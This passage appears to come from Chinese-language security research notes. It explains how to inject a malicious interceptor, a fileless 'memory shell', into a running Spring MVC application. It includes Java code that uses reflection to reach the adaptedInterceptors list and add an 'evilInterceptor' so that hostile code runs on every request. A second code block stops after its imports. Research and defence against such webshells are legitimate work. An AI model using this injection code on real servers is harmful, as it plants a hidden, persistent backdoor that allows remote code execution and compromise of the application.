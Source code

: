 ![](img/2023-01-30-17-35-53.png)  
可以看到通过这几个方法可以获得请求对象来执行相关代码,同样的则可以注入拦截器内存马,执行恶意代码.  
当SpringMvc在处理每一个Handler时,通过 HandlerMapping 的 getHandler 方法获取到对应的Hanlder,而就是在其中会通过`getHandlerExecutionChain`来得到该Hanlder执行前的拦截器列表,而拦截器列表可以看到是储存在`adaptedInterceptors`变量中的.  
![](img/2023-01-30-17-40-15.png)  
##### 注入思路
只需要将恶意的Interceptor直接添加进`adaptedInterceptors`变量即可.
##### 实现代码
```java
    public  void interceptorInject() throws NoSuchFieldException, IllegalAccessException {
        WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (ArrayList<Object>) field.get(mapping);
        adaptedInterceptors.add(evilInterceptor.getInterceptor());
    }
```
```java
package springweb.beans;

import org.springframework.web.servlet.HandlerInterceptor;
```